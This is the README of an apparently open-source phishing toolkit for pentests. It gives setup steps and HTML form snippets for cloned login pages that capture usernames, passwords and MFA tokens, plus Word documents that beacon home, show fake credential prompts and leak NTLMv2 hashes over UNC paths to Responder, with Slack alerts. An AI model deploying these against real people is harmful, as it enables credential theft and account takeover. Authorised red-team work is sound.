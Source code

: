 # Phishing-API
This API has two main features.  One allows you to easily deploy cloned landing pages for credential stealing and the other feature is weaponized Word doc creation.  Both are integrated into Slack for real-time alerting.  <b>I'm currently running this same code for those that don't want to implement their own environment as a free service @ https://phishapi.com!  </b>


## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well (as does the Phishing Portal feature) so if you're running Responder in a background session you can capture NTLMv2 hashes and be notified via Slack!  Support for weaponizing your own Word doc templates is built in.  Just upload an existing doc and download it again to hook it.  You can also choose to use Basic Auth which prompts the user for credentials, just like Phishery does!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API



# 1) To Use the API for Capturing Credentials from Fake Sites : 

Rapid & Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	`<INPUT NAME="token">` <b>(OPTIONAL MFA FIELD)</b>  
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="PhishBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":fishing_pole_and_fish:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials or click the link in the Slack notification.

<p align="center">
<img src="https://i.imgur.com/L8yYRMQ.png" width="70%"><br />
<b>Figure 1: Someone Entered Credentials into the Fake Portal - Slack Alert</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/oXy9dEE.png" width="80%"><br />
<b>Figure 2: BeEF Hook Slack Alert (Optional in Case You Want to React Quickly w/ Modules)</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/CcSw4TT.png" width="100%"><br />
<b>Figure 3: Captured NTLMv2 Hash Exposed via Browser</b>
<br/><br/></p>

<p align="center">           
<img src="https://i.imgur.com/2ayiRRW.png"><br />
<b>Figure 4: Clicking the Slack Link Allows Viewing Credentials</b>
<br /><br/>
</p>

# 2) To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Create /var/www/uploads Path and make sure your web user has sudoers access

3) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

4) Optionally set up [Responder](https://github.com/SpiderLabs/Responder "Responder") in a background process and run `phishinghashes.sh` every minute or so with cron

5) Set up your php.ini to allow uploads of at least 15MB and enable browsecap.ini for parsing UserAgent strings, otherwise some functionality may be limited.  

6) Email your doc and wait for the Slack alerts!

<p align="center"><b>Bonus points if you use your docs as honeypot bait! :)</b></p>

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/LW4BUjN.png"><br />
<b>Figure 1: Web Based Payload Generation - Create New Doc or Upload Existing w/ Payload Options</b>
</p>
                  
            
<br /><br/>
<p align="center">
<img src="https://i.imgur.com/onsPyFp.png"><br />
<b>Figure 2: Opening Document Generated (New) by Service</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/sw8JWQE.png" width="40%"><br />
<b>Figure 3: If "Auth Prompt" if Selected in Payload Options, Display Basic Auth Prompt to User for Credential Capturing</b>
</p>
                  

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/HlY3T4G.png" width="80%"><br />
<b>Figure 4: HTTP Beacon is Selected by Default and Alerts When the Target Opens the Document</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/ku6UTNI.png" width="75%"><br />
<b>Figure 5: If Credentials are Entered from Figure 3 Above, Notify via Slack When Captured</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/OO0sjDR.png"><br />
<b>Figure 6: Clicking on the Slack Alert Displays Captured Details (Hashes, Credentials, Client Details)</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/qZFGmXA.png"><br />
<b>Figure 7: Slack Alert when UNC/SMB Hashes are Received from Word Document</b>
</p>


<br /><br/>
<p align="center">
	<b>Currently, I'm running <a href="https://github.com/SpiderLabs/Responder">Responder</a> in a Screen session with <i>phishinghashes.sh</i> scheduled via Cron to run every minute to pick up hashes, correlate phished users, and alert via Slack.  You can also relay those hashes with another tool if you'd like to take things even further.  Enjoy! :)</b></p>
